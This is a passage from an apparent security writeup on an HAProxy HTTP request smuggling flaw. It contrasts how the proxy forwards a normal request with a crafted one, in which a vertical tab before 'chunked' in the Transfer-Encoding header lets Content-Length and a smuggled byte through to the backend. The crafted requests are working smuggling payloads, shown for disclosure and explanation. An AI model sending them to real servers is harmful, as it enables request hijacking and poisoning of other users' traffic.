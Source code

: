 To actually exploit HTTP smuggling using the issue described in this writeup, the backend server(s) behind HAProxy would  also have to be vulnerable in the sense they too would need to suffer from a bug, but one which parses and accepts a poorly formed Transfer-Encoding header (almost certainly violating RFC7230), and allows HTTP keep-alive.

## The HAProxy bug - sending both Transfer-Encoding and Content-Length

This is how HAProxy handles a request when Transfer-Encoding and Content-Length is provided together:

**Request to HAProxy:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

**Request forwarded to backend:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0

```

The request HAProxy sends to the backend has correctly prioritized Transfer-Encoding, and has stripped out the content length and cut off the "X" from the request, which went outside the boundry of the Transfer-Encoding request.

However, in the next request we have a `\x0b` (vertical tab) before the "chunked" string (note: `\x0c` aka form feed also works).

**Request to HAProxy:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
```

**Request forwarded to backend:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
```
